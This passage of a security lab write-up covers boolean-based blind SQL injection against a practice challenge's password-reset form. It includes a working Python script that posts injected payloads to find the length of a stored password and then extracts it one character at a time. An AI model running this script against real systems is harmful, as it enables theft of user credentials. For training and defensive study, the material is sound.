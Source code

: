 ![Boolean_substring_3](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Labs/Boolean_substring_3.png)

We can see the first and second characters of `user()` is `bl`. But doing this manually is tough, so, I create a script to automate the process.

```python
import requests

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36"
}
url = "https://livelabs.0x4148.com/challenges/boolean_1/"
target_text = "A password reset email has been sent."

# Determine the length of the query result
query_length = 0
query = "select password from users limit 1"
for i in range(1, 100):
    payload = f"username=admin' and length(({query}))={i} and 1='1&reset_password="
    response = requests.post(url, headers=headers, data=payload)
    if target_text in response.text:
        query_length = i
        print(f"Query result length: {query_length}")
        break

if query_length == 0:
    print("Failed to determine query result length.")
    exit(1)

# Extract the query result
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()_+[]{}|;:,.<>?/`~-=\\\"' "
flag = ""
for position in range(1, query_length + 1):
    for char in chars:
        payload = f"username=admin' and substring(({query}),{position},1)='{char}&reset_password="
        response = requests.post(url, headers=headers, data=payload)
        if target_text in response.text:
            flag += char
            print(f"Extracted so far: {flag}")
            break

print(f"Extracted query result: {flag}")
```